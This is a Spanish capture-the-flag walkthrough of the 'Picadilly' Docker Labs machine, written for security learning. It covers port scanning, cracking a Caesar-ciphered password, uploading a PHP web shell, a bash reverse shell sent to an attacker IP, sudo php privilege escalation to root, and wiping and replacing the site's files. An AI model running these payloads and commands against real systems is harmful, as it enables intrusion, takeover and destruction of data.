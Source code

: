 
![[20250825191353.png]](picadilly-images/20250825191353.png)

# Fase de reconocimiento

empezamos con un escaneo básico de puertos con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

una vez sabemos los puertos que están abiertos vamos a realizar un segundo escaneo pero esta vez con scripts básicos de nmap para sacar el servicio y la versión que corren por detras 


```bash
nmap -p80,443 -sCV 172.17.0.2 -oN targeted
```
![[20250825191755.png]](picadilly-images/20250825191755.png)

vemos que tenemos los puertos 80 y 443 abiertos y que ambos son http y https por lo que vamos a ver que hay en la web empezando por el puerto 80


![[20250825191845.png]](picadilly-images/20250825191845.png)

por el puerto 80 vemos esta pagina donde hay un archivo backup.txt veamos que contiene

![[20250825191920.png]](picadilly-images/20250825191920.png)

pone que hay un usuario llamado mateo y una contraseña "hdvbfuadcb" pero nos pone que la contraseña esta encriptada con el método de cifrado Cesar. ya que hace referencia a un emperador romano y su cifrado de cambio de letras

utilizamos un decodificador de cifrados y vemos que nos muestra varias posibles combinaciones.

![[20250825192110.png]](picadilly-images/20250825192110.png)

en una de las partes vemos una contraseña que es "easycrxazy" lo cual guardaremos como posible contraseña pero ahora hay que ver donde ponemos esa contraseña 

vamos a la pagina https que esta en el puerto 443 "https://172.17.0.2:443"

![[20250825192347.png]](picadilly-images/20250825192347.png)

vemos una pagina con post y anuncios sobre picadilly abajo de la pagina web vemos esto 

![[20250825192422.png]](picadilly-images/20250825192422.png)

# Fase de explotacion

asi que vamos a tratar de subir un archivo php para inyectar una shell, en nuestra maquina victima creamos un archivo con nombre shell.php y dentro pondremos lo siguiente

```php
<?php system($_GET['cmd']); ?>
```

y ahora subiremos el archivo 

![[20250825192614.png]](picadilly-images/20250825192614.png)

vemos que la pagina nos acepta la subida aunque desde aqui no podemos hacer gran cosa. como es costumbre cuando se suben archivos a una web suele existir un directorio llamado uploads asi que vamos a comprobarlo

ponemos en la URL "https://172.17.0.2/uploads/"

![[20250825192753.png]](picadilly-images/20250825192753.png)

efectivamente tenemos el directorio y dentro esta nuestra shell asi que pinchamos y probamos a lanzar algun codigo de prueba

```bash
https://172.17.0.2/uploads/shell.php?cmd=id
```

![[20250825192834.png]](picadilly-images/20250825192834.png)

vemos que efectivamente tenemos shell así que vamos a lanzarnos una shell por el puerto 443

en nuestra maquina atacante vamos a preparar un puerto 443 para recibir la shell 

```bash
nc -nlvp 443
```

y desde la url ponemos lo siguiente 

```bash
https://172.17.0.2/uploads/shell.php?cmd=bash -c "bash -i %26> /dev/tcp/192.168.1.182/443 0>%261"
```

![[20250825193051.png]](picadilly-images/20250825193051.png)

vemos que hemos recibido la shell correctamente 

# Fase de Post explotación

lo primero será tratar la shell para trabajar mas cómodos 

```bash
script /dev/null -c bash
```

luego pulsamos Ctrl + Z para suspender la shell

luego ponemos en nuestra maquina atacante 
```bash
stty raw -echo; fg
```

y para finalizar escribimos 

```bash
export TERM=xterm
```

ahora si tenemos una shell practica 


lo primero que haremos ya que tenemos el usuario mateo y la contraseña "easycrxazy" va a ser probarlo 

![[20250825193359.png]](picadilly-images/20250825193359.png)

vemos que la contraseña no funciona, la logica me dice que la x de la palabra crxazy esta puesta a posta para molestar asi que probaremos a poner la frase easycrazy sin la x 


![[20250825193518.png]](picadilly-images/20250825193518.png)

ahora si vemos que tenemos shell con el usuario mateo 

# Escalada de privilegios 

como siempre empezamos por el comando 

```bash
sudo -l 
```

![[20250825193607.png]](picadilly-images/20250825193607.png)

vemos que tenemos permisos de sudo con el binario php asi que vamos a revisar en GTFObins que podemos hacer con esto 

![[20250825193647.png]](picadilly-images/20250825193647.png)

probamos a lanzar el script por terminal 

```bash
sudo php -r "system('/bin/bash');"
```

![[20250825193744.png]](picadilly-images/20250825193744.png)

y podemos ver que tenemos acceso como root 


# Extra 

vamos a dejar nuestra firma ya que las maquinas docker labs no tienen bandera todo el proceso esta documentado en la maquina chocolatelovers . en este caso la maquina victima no tiene wget instalado asi que vamos a cambiar el proceso de la firma


ya que tenemos acceso a la pagina web por el puerto 443 donde podemos subir el archivo que queramos vamos a subir el index.html y la imagen de la firma 

luego en la maquina victima vamos al directorio "/var/www/html"

y haremos el siguiente comando 

```bash
mv ./uploads/index.html . && mv ./uploads/panda.png .
```

luego borraremos todo lo demás para dejar solo nuestros archivos 

```bash
rm -r index.php create_post.php picadilly.jpg uploads uploads.php
```

![[20250825195456.png]](picadilly-images/20250825195456.png)

cuando solo tengamos esto vamos al puerto 80 

```bash
cd ../picadilly
```

donde estará el archivo backup.txt lo borramos también 

```bash
rm -r backup.txt
```

y copiamos el index.html y la imagen al directorio actual 

```bash
cp ../html/* .
```


ahora si podemos ir a la pagina web y refrescar

![[20250825195821.png]](picadilly-images/20250825195821.png)

aqui podemos ver nuestra firma.
